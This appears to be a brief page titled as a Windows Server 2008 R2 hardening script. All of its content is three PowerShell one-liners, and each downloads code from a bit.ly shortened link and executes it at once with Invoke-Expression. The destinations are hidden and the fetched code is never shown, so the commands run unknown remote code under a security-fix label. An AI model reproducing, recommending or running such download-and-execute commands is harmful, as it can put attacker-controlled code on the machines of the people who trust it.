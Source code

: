 # 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/36qZxOg')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2MPMyhq')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2FkU2op')"
